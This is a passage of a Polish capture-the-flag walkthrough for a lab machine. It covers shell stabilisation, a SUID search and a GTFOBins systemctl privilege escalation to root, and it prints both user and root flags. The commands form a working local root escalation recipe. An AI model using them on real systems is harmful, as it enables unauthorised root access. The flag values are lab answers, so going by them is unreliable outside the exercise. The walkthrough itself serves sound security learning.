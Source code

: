 
Gdy wejdziemy w folder /home i wpiszemy polecenie `ls` zobaczymy nazwę użytkownika *bill*, zatem możemy odpowiedzieć na pytanie kto zarządza tym serwerem.


![](p/12.png)


Przejdźmy teraz do folderu *bill* i otwórzmy plik *user.txt* (poleceniem `cat user.txt`) który zawiera pierwszą flagę. 

Flaga: `8bd7992fbe8a6ad22a63361004cfcedb`


![](p/13.png)


## **Task 4 - Privilege Escalation**

W międzyczasie możemy ustabilizować naszego shella poleceniem:

    python -c 'import pty; pty.spawn("/bin/bash")'

Poszukujemy plików które mają ustawiony bit SUID, robimy to poleceniem:

    find / -perm -u=s -type f 2>/dev/null

Z całego outputu najbardziej wyróżnia się */bin/systemctl*. `systemctl` może służyć do kontrolowania usług i zarządzania nimi systemd. Systemd składa się z zestawu demonów, bibliotek i narzędzi, które umożliwiają administrację i konfigurację systemu oraz interakcję z rdzeniem systemu Gnu / Linux.

Skorzystamy z strony: [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid), możemy tam znaleźć pełną instrukcję jak należy dokonać eskalacji uprawnień związanej z poleceniem systemctl.

```bash
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

Po wpisaniu `bash -p` otrzymujemy dostęp do serwera jako root! Wystarczy jednie odczytać końcową flagę w folderze */root* (`cat /root/root.txt`).
